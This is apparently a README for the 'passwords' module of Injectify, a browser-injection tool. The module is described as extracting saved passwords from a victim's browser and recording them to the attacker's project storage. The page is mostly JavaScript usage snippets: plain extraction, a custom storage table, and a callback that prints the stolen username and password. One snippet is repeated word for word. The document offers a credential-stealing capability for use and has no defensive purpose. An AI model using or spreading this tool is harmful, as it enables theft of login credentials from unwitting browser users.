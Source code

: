## `passwords` module

Extracts saved passwords from the browser and records them to your project's data Storage

## Usage

```js
// Simply extract and record
injectify.module('passwords')
// { username: 'user123', password: 'p@$$w0rd' }


// Record passwords to a custom table
injectify.module('passwords', {
  table: 'customTable'
})
// { username: 'user123', password: 'p@$$w0rd' }


// Record passwords to a custom table
injectify.module('passwords', {
  table: 'customTable'
})
// { username: 'user123', password: 'p@$$w0rd' }


// Callback once they've been extracted
injectify.module('passwords').then(({ username, password }) => {
  console.log(`Your username is ${username} and your password is ${password}`)
})
// { username: 'user123', password: 'p@$$w0rd' }
```
